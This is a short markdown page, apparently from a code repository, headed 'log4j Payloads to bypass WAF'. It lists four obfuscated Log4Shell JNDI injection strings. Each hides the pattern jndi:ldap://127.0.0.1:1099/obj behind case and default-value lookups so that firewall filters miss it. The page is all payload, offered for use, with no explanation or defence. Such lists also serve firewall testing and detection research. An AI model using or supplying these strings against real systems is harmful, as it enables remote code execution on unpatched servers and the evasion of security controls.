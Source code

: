 # log4j Payloads to bypass WAF

- ` ${j${lower:n}d${lower:i}${lower::}${lower:l}d${lower:a}p${lower::}${lower:/}/${lower:1}${lower:2}${lower:7}.${lower:0}${lower:.}${lower:0}${lower:.}${lower:1}${lower::}${lower:1}0${lower:9}${lower:9}/${lower:o}${lower:b}j} `
 
- `${${upper:j}${lower:n}${lower:d}${lower:i}${lower::}${lower:l}${lower:d}${lower:a}${lower:p}${lower::}${lower:/}${lower:/}${lower:1}${lower:2}${lower:7}${lower:.}${lower:0}${lower:.}${lower:0}${lower:.}${lower:1}${lower::}${lower:1}${lower:0}${lower:9}${lower:9}${lower:/}${lower:o}${lower:b}${lower:j}}`
 
- `${${nuDV:CW:yqL:dWTUHX:-j}n${obpOW:C:-d}${ll:-i}:${GI:-l}d${YRYWp:yjkg:wrsb:RajYR:-a}p://${RHe:-1}2${Qmox:dC:MB:-7}${ucP:yQH:xYtT:WCVX:-.}0.${WQRvpR:ligza:J:DSBUAv:-0}.${v:-1}:${p:KJ:-1}${Ek:gyx:klkQMP:-0}${UqY:cE:LPJtt:L:ntC:-9}${NR:LXqcg:-9}/o${fzg:rsHKT:-b}j}`
 
- `${${uPBeLd:JghU:kyH:C:TURit:-j}${odX:t:STGD:UaqOvq:wANmU:-n}${mgSejH:tpr:zWlb:-d}${ohw:Yyz:OuptUo:gTKe:BFxGG:-i}${fGX:L:KhSyJ:-:}${E:o:wsyhug:LGVMcx:-l}${Prz:-d}${d:PeH:OmFo:GId:-a}${NLsTHo:-p}${uwF:eszIV:QSvP:-:}${JF:l:U:-/}${AyEC:rOLocm:-/}${jkJFS:r:xYzF:Frpi:he:-1}${PWtKH:w:uMiHM:vxI:-2}${a:-7}${sKiDNh:ilypjq:zemKm:-.}${QYpbY:P:dkXtCk:-0}${Iwv:TmFtBR:f:PJ:-.}${Q:-0}${LX:fMVyGy:-.}${lS:Mged:X:th:Yarx:-1}${xxOTJ:-:}${JIUlWM:-1}${Mt:Wxhdp:Rr:LuAa:QLUpW:-0}${sa:kTPw:UnP:-9}${HuDQED:-9}${modEYg:UeKXl:YJAt:pAl:u:-/}${BPJYbu:miTDQJ:-o}${VLeIR:VMYlY:f:Gaso:cVApg:-b}${sywJIr:RbbDTB:JXYr:ePKz:-j}}`
